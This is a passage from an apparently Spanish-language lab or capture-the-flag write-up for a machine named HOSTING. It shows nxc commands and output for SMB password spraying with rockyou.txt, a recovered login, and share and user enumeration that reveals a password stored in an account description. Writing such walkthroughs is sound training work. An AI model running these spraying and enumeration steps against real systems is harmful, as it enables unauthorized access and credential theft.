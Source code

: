 ```console
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\a.krist:m.faeny STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\m.faeny:m.faeny STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\k.lendy:m.faeny STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\p.smith:k.lendy STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\a.krist:k.lendy STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\m.faeny:k.lendy STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\k.lendy:k.lendy STATUS_LOGON_FAILURE
```

A la desesperada probé la lista de `rockyou.txt` y tuve suerte.
```console
nxc smb 192.168.2.10 -u users.txt -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\p.smith:booboo STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\a.krist:booboo STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\m.faeny:booboo STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\k.lendy:booboo STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [+] HOSTING\p.smith:kissme
```

Teniendo este combo, podemos listar los recursos compartidos a nivel de red pero no vemos nada.
```console
nxc smb 192.168.2.10 -u p.smith -p kissme --shares
SMB         192.168.2.10    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.2.10    445    HOSTING          [+] HOSTING\p.smith:kissme
SMB         192.168.2.10    445    HOSTING          [*] Enumerated shares
SMB         192.168.2.10    445    HOSTING          Share           Permissions     Remark
SMB         192.168.2.10    445    HOSTING          -----           -----------     ------
SMB         192.168.2.10    445    HOSTING          ADMIN$                          Admin remota
SMB         192.168.2.10    445    HOSTING          C$                              Recurso predeterminado
SMB         192.168.2.10    445    HOSTING          IPC$            READ            IPC remota
```

Enumerando los usuarios vemos algo extraño, en el usuario `m.davis` vemos una descripción que tiene pinta de ser una credencial.
```console
nxc smb 192.168.2.10 -u p.smith -p kissme --users
SMB         192.168.2.10    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.2.10    445    HOSTING          [+] HOSTING\p.smith:kissme
SMB         192.168.2.10    445    HOSTING          [*] Enumerated 9 local users: HOSTING
SMB         192.168.2.10    445    HOSTING          -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         192.168.2.10    445    HOSTING          Administrador                 2024-09-02 16:24:30 0
SMB         192.168.2.10    445    HOSTING          administrator                 2024-09-02 17:17:47 0
SMB         192.168.2.10    445    HOSTING          DefaultAccount                2024-09-02 16:24:40 0
SMB         192.168.2.10    445    HOSTING          f.miller                      2024-09-02 16:28:55 0
SMB         192.168.2.10    445    HOSTING          Invitado                      2024-09-02 16:24:48 0
SMB         192.168.2.10    445    HOSTING          j.wilson                      2024-09-02 16:31:36 0
SMB         192.168.2.10    445    HOSTING          m.davis                       2024-09-02 16:29:54 0       H0$T1nG123!
```